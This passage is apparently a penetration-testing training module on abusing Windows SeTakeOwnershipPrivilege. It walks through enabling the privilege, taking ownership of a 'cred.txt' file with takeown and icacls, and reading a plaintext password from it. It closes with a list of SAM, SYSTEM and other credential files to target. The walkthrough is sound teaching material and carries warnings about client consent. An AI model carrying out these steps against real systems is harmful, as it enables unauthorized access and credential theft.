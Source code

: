 # SeTakeOwnershipPrivilege

[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns [WRITE\_OWNER](https://docs.microsoft.com/en-us/windows/win32/secauthz/standard-access-rights) rights over an object, meaning the user can change the owner within the object's security descriptor. Administrators are assigned this privilege by default. While it is rare to encounter a standard user account with this privilege, we may encounter a service account that, for example, is tasked with running backup jobs and VSS snapshots assigned this privilege. It may also be assigned a few others such as `SeBackupPrivilege`, `SeRestorePrivilege`, and `SeSecurityPrivilege` to control this account's privileges at a more granular level and not granting the account full local admin rights. These privileges on their own could likely be used to escalate privileges. Still, there may be times when we need to take ownership of specific files because other methods are blocked, or otherwise, do not work as expected. Abusing this privilege is a bit of an edge case. Still, it is worth understanding in-depth, especially since we may also find ourselves in a scenario in an Active Directory environment where we can assign this right to a specific user that we can control and leverage it to read a sensitive file on a file share.

<figure><img src="../../../../.gitbook/assets/image (369).png" alt=""><figcaption></figcaption></figure>

The setting can be set in Group Policy under:

* `Computer Configuration` ⇾ `Windows Settings` ⇾ `Security Settings` ⇾ `Local Policies` ⇾ `User Rights Assignment`

<figure><img src="../../../../.gitbook/assets/image (370).png" alt=""><figcaption></figcaption></figure>

With this privilege, a user could take ownership of any file or object and make changes that could involve access to sensitive data, `Remote Code Execution` (`RCE`) or `Denial-of-Service` (DOS).

Suppose we encounter a user with this privilege or assign it to them through an attack such as GPO abuse using [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse). In that case, we could use this privilege to potentially take control of a shared folder or sensitive files such as a document containing passwords or an SSH key.

***

## Leveraging the Privilege

### **Reviewing Current User Privileges**

Let's review our current user's privileges.

```powershell
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```

### **Enabling SeTakeOwnershipPrivilege**

Notice from the output that the privilege is not enabled. We can enable it using this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) which is detailed in [this](https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/) blog post, as well as [this](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) one which builds on the initial concept.

```powershell
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

### **Choosing a Target File**

Next, choose a target file and confirm the current ownership. For our purposes, we'll target an interesting file found on a file share. It is common to encounter file shares with `Public` and `Private` directories with subdirectories set up by department. Given a user's role in the company, they can often access specific files/directories. Even with a structure like this, a sysadmin may misconfigure permissions on directories and subdirectories, making file shares a rich source of information for us once we have obtained Active Directory credentials (and sometimes even without needing credentials). For our scenario, let's assume that we have access to the target company's file share and can freely browse both the `Private` and `Public` subdirectories. For the most part, we find that permissions are set up strictly, and we have not found any interesting information on the `Public` portion of the file share. In browsing the `Private` portion, we find that all Domain Users can list the contents of certain subdirectories but get an `Access denied` message when trying to read the contents of most files. We find a file named `cred.txt` under the `IT` subdirectory of the `Private` share folder during our enumeration.

Given that our user account has `SeTakeOwnershipPrivilege` (which may have already been granted), or we exploit some other misconfiguration such as an overly permissive Group Policy Object (GPO) to grant our user account that privilege) we can leverage it to read any file of our choosing.

{% hint style="warning" %}
**Note:** Take great care when performing a potentially destructive action like changing file ownership, as it could cause an application to stop working or disrupt user(s) of the target object. Changing the ownership of an important file, such as a live web.config file, is not something we would do without consent from our client first. Furthermore, changing ownership of a file buried down several subdirectories (while changing each subdirectory permission on the way down) may be difficult to revert and should be avoided.
{% endhint %}

Let's check out our target file to gather a bit more information about it.

```powershell
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

### **Checking File Ownership**

We can see that the owner is not shown, meaning that we likely do not have enough permissions over the object to view those details. We can back up a bit and check out the owner of the IT directory.

```powershell
PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B
 
 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

We can see that the IT share appears to be owned by a service account and does contain a file `cred.txt` with some data inside it.

### **Taking Ownership of the File**

Now we can use the [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows binary to change ownership of the file.

```powershell
PS C:\htb> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
```

### **Confirming Ownership Changed**

We can confirm ownership using the same command as before. We now see that our user account is the file owner.

```powershell
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

### **Modifying the File ACL**

We may still not be able to read the file and need to modify the file ACL using `icacls` to be able to read it.

```powershell
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
   horizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Let's grant our user full privileges over the target file.

```powershell
PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

### **Reading the File**

If all went to plan, we can now read the target file from the command line, open it if we have RDP access, or copy it down to our attack system for additional processing (such as cracking the password for a KeePass database.

```powershell
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

NIX01 admin
 
root:n1X_p0wer_us3er!
```

After performing these changes, we would want to make every effort to revert the permissions/file ownership. If we cannot for some reason, we should alert our client and carefully document the modifications in an appendix of our report deliverable. Again, leveraging this permission can be considered a destructive action and should be done with great care. Some clients may prefer that we document the ability to perform the action as evidence of a misconfiguration but not fully take advantage of the flaw due to the potential impact.

***

## When to Use?

### **Files of Interest**

Some local files of interest may include:

```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

We may also come across `.kdbx` KeePass database files, OneNote notebooks, files such as `passwords.*`, `pass.*`, `creds.*`, scripts, other configuration files, virtual hard drive files, and more that we can target to extract sensitive information from to elevate our privileges and further our access.
